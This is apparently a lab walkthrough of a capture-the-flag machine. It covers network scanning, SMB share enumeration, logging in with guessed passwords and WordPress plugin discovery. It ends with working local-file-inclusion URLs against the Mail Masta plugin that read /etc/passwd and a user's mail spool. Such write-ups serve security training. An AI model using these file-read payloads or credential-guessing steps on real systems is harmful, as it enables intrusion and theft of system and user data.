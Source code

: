<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/88e1fe29-f852-456c-8f61-f7e5fb362ae6"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/78f2f130-3cff-4270-bb2f-ff47be4a0ec7)

```bash
ping -c 1 192.168.1.206
```
![image](https://github.com/user-attachments/assets/11082534-d4e5-46a4-bd1d-5dcb3739a9cf)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.206 -oG allPorts
```
![image](https://github.com/user-attachments/assets/aed9999a-d126-4a95-87ca-2191569d542e)

```bash
nmap -sCV -p22,25,80,139,445 192.168.1.206 -oN targeted
```
![image](https://github.com/user-attachments/assets/3fe2fe44-709f-4d84-8e57-2855140ee130)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/a17e1705-6473-414e-84c7-0a0c9614be6c)<br>
```CTRL + U```<br>
<br>
![image](https://github.com/user-attachments/assets/eee9fbf0-4fdb-4738-b9fb-8561882bc05d)

```bash
whatweb "http://192.168.1.206"
```
![image](https://github.com/user-attachments/assets/d3d9975f-ef95-4a56-ac5a-5b19837293d8)

#### **let's analyze the image we found above**
![image](https://github.com/user-attachments/assets/337c0441-58c3-4b1b-a9cc-6f584b191796)<br>
![image](https://github.com/user-attachments/assets/12484bcf-49f2-4406-9d34-7745fdc4b601)
```bash
wget http://192.168.1.206/image.jpg
```
![image](https://github.com/user-attachments/assets/a9bfcf71-aeba-4659-ab77-b162891dd820)
```bash
exiftool image.jpg
```
![image](https://github.com/user-attachments/assets/f9aa1464-dcf7-45bc-acd4-d02bd04fe942)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.206/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/a548b799-c922-4c44-9f0d-2ce19fbcc161)
![image](https://github.com/user-attachments/assets/a9a82b2c-5d83-464a-92e1-181c5fa2a7b3)

#### **We have not found anything that can help us at the moment**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

```bash
smbmap -H 192.168.1.206
```
![image](https://github.com/user-attachments/assets/b66eba20-6e05-4740-b388-9d00a3f22b76)

```bash
smbmap -H 192.168.1.206 -r anonymous
```
![image](https://github.com/user-attachments/assets/02ed6711-5430-4525-b475-77f270c22ec7)

```bash
smbmap -H 192.168.1.206 --download anonymous/attention.txt
```
![image](https://github.com/user-attachments/assets/316386e3-3343-4c0e-9337-322771037ce9)
![image](https://github.com/user-attachments/assets/4c420a34-3da4-4af0-8ff3-0e6468c006e9)

#### **possible passwords and users**
```bash
nano users.txt

helios
Zeus
```
```bash
nano passwords.txt

epidioko
qwerty
baseball
```
![image](https://github.com/user-attachments/assets/16f07265-13d5-4e1a-ba44-9f33f1212edb)<br>

#### **let's remember that we still have a helios user share that we don't have access to so let's try the passwords found**
```bash
smbmap -H 192.168.1.206 -u helios -p qwerty
```
![image](https://github.com/user-attachments/assets/77400a11-9d41-4ef4-8847-5efe753f56bf)

```bash
smbmap -H 192.168.1.206 -u helios -p qwerty -r helios
```
![image](https://github.com/user-attachments/assets/5da48e91-22f9-44b2-b364-21bff7fde9e7)

```bash
smbmap -H 192.168.1.206 -u helios -p qwerty --download helios/research.txt
smbmap -H 192.168.1.206 -u helios -p qwerty --download helios/todo.txt
```
![image](https://github.com/user-attachments/assets/26d40dfe-9a33-43af-bd7d-e83b7f846a1e)
![image](https://github.com/user-attachments/assets/4ee92ecd-2005-49a1-be49-dbec846c6dd0)
![image](https://github.com/user-attachments/assets/1435e5d8-5ec6-4bbc-b09b-b568321b1648)
![image](https://github.com/user-attachments/assets/a97e2fa8-4867-4bb6-b53d-85561e73515a)
<br>
<br>
``CTRL + U``
<br>
<br>
![image](https://github.com/user-attachments/assets/a7fb8009-44b5-4068-9efc-8e4bc496abd6)

```bash
ping -c 1 http://symfonos.local/
```
![image](https://github.com/user-attachments/assets/303a0a02-448a-470d-ad27-3b19f5dd03db)
```bash
nano /etc/hosts/
```
![image](https://github.com/user-attachments/assets/22984232-e1a9-4ba8-bd67-1349f5714bd3)
![image](https://github.com/user-attachments/assets/8fe11ba1-788c-4e5a-aeb1-dbbae8c4f267)

```bash
whatweb "http://192.168.1.206/h3l105/"
```
![image](https://github.com/user-attachments/assets/57f2da01-d568-4bae-a778-bb65dce31a9b)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.206/h3l105/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,py,php,sh
```
![image](https://github.com/user-attachments/assets/5080b808-1a03-4fdd-ac98-a5005769976e)


#### **we apply a word press recognition**
```bash
wpscan --url http://192.168.1.206/h3l105/ --enumerate u,vp
```
![image](https://github.com/user-attachments/assets/71a8e804-5bc2-465a-a273-2c679e15acdc)
![image](https://github.com/user-attachments/assets/4029f662-4962-48ce-a0a8-d3c8ae1b8872)
![image](https://github.com/user-attachments/assets/08fed5f8-d0c7-4ec3-bc13-1856e18259b4)

#### **we didn't find anything, but let's remember that when reviewing the source code of the web site we could see some plugins**
![image](https://github.com/user-attachments/assets/85f2eade-4728-42a4-82b5-f94825b4aa67)

#### **now from the console we will make a call to the web to make an analysis and we can extract more info.**
```bash
curl -s -X GET "http://192.168.1.206/h3l105/" | grep "wp-content" |grep -oP "'.*?'" | grep "symfonos.local" | cut -d '/' -f 1-7 | sort -u | grep plugins
```
![image](https://github.com/user-attachments/assets/e112d048-8406-4dc8-94ac-d5625cff123d)

#### **we look for possible exploits**
```bash
searchsploit mail masta
```
![image](https://github.com/user-attachments/assets/07d78f62-c6af-4322-b7f9-3374c2b38f4a)
```bash
searchxploit -x php/webapps/40290.txt
```
![image](https://github.com/user-attachments/assets/614a157b-3fc7-425c-b946-c2e652ea5cc9)
http://192.168.1.206/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
![image](https://github.com/user-attachments/assets/f75129aa-8b8f-45ca-ab56-bffd87eea826)

#### **as we found a plugin on mails, let's search for e-mails**
```WEB
http://192.168.1.206/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
```
![image](https://github.com/user-attachments/assets/84b33dfc-d780-4c30-8a82-75c6e1dcadbc)
![image](https://github.com/user-attachments/assets/bdd37c8d-0aa0-4f20-ab91-0d646b1a980d)
















